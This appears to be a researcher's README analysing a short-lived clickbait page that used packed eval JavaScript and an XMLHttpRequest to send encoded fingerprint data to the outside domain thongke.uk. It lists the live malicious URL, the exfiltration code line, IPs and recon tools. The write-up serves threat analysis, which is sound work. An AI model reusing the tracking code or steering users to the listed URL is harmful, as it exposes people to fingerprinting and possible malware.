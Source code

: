# Self-Destructing-JS-Redirect-Trap-Analysis-April-2025-

## 🎯 Overview
This document details the analysis of a suspicious link that appeared briefly online (~15 minutes) and was manually deleted by the individual who posted it. The link led to a webpage hosted under a seemingly benign domain, but its behavior revealed obfuscated JavaScript, external data exfiltration, and redirection behavior consistent with black hat campaigns.

---

## 🕵️‍♂️ Investigated URL
```
http://cokokikikco.alexanderpollard.com/XbPuBCUFRFeMxjfd
```

## 📌 DNS & Host Info
- **Subdomain:** `cokokikikco`
- **Domain:** `alexanderpollard.com`
- **Resolved IPs:**
  - `172.67.188.98` (Cloudflare)
  - `104.21.40.213` (Cloudflare)

> The server is hidden behind Cloudflare, common for either protection or obfuscation.

---

## 📃 HTML Snapshot
- `<title>HOT Video 1,356,198 views</title>` — clickbait headline
- Meta tags in Vietnamese, implying traffic targeting Southeast Asia
- `og:image` points to a Googleusercontent-hosted image
- Generated by **WordPress 5.8.4** using **Site Kit by Google** plugin

---

## 🔬 JavaScript Behavior
### 🔸 Ofuscated Script
```js
eval(function(p,a,c,k,e,r){...})
```
- Uses Dean Edwards-style packing
- Calls to `XMLHttpRequest`, `navigator`, `window.location`

### 🔸 Remote GET Request
```js
xhr.open("GET", window.location.protocol + "//thongke.uk?s=Y29rb2tpca2lrY29BYWxleGFuZGVyC9sbGFyZC5jb21BMT...");
```
- Sends encoded data to `thongke.uk`
- Behavior suggests **fingerprinting** or **redirection campaign tracking**

---

## 🌐 Secondary Domain Info: `thongke.uk`
- **WHOIS:** Registered Aug 2023, privacy protected
- **Resolved IPs:**
  - `172.67.167.71`
  - `104.21.11.215`
- **Also protected by Cloudflare**

---

## 🧪 Tools Used for Analysis
- `curl -I` for HTTP headers
- `dig`, `whois`, `nslookup` for DNS enumeration
- Manual `curl` of HTML page + `cat`/`grep` inspection
- JavaScript beautification tools
- Optional proxy interception using Burp Suite (recommended)

---

## 💣 Key Indicators of Suspicion
- Ofuscated script with runtime execution (`eval`)
- Encoded fingerprinting redirect to external domain
- Rapid deletion of the link post (indicating manual control by attacker)
- Short TTL of post: ~15 minutes live before removal

---

## 🧾 Conclusion
This case appears to be a **temporary malicious redirect campaign**, potentially under A/B testing by the attacker. The use of clickbait elements, rapid self-removal, and ofuscated tracking scripts aligns with modern techniques for:
- Black hat affiliate redirection
- Fingerprint harvesting
- Early-stage malware delivery testing

The subdomain being under a legit-looking domain (possibly compromised WordPress site) adds to the danger, as users may trust the link at a glance.

---

## 👤 Analyst
**Sebastian** (Grey Hat Researcher, April 2025)

---

> 🔒 For educational and ethical research purposes only. Do not replicate without a safe lab environment.

